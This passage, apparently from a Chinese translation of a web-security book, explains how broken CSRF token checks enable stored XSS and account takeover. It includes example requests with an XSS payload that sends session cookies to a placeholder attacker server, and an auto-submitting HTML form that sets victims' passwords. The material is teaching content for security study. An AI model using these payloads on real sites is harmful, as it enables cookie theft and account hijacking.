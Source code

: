 ```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&**csrf_token=WRONG_TOKEN**
```

但是这个没有令牌的请求会成功：

```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```

这个请求将改变用户的账户昵称，并在那里存储 XSS 有效载荷。下次用户登录账户并查看他们的仪表板时，他们会触发 XSS。

### 通过使用 CSRF 接管用户账户

有时候，CSRF 甚至可能导致账户接管。这种情况也并不罕见；当 CSRF 漏洞存在于关键功能中，如创建密码、修改密码、更改电子邮件地址或重置密码的代码时，就会发生账户接管问题。

例如，假设除了使用电子邮件地址和密码注册外，*example.com*还允许用户通过社交媒体账户注册。如果用户选择此选项，他们不需要创建密码，因为他们可以直接通过关联的账户登录。但为了给用户提供更多选择，已通过社交媒体注册的用户可以通过以下请求设置新密码：

```
POST /set_password
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

由于用户是通过社交媒体账户注册的，他们不需要提供旧密码即可设置新密码，因此，如果此端点的 CSRF 保护失败，攻击者将能够为任何通过社交媒体账户注册且尚未设置密码的用户设置密码。

假设应用程序没有正确验证 CSRF 令牌，并接受空值。以下请求将为任何尚未设置密码的用户设置密码：

```
POST /set_password
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
password=**XXXXX&csrf_token=**
```

现在攻击者所需要做的只是将这个 HTML 页面的链接发布到网站用户常访问的页面上，任何访问该恶意页面的用户都会自动被分配密码：

```
<html> <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type="text" name="csrf_token" value=""> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```
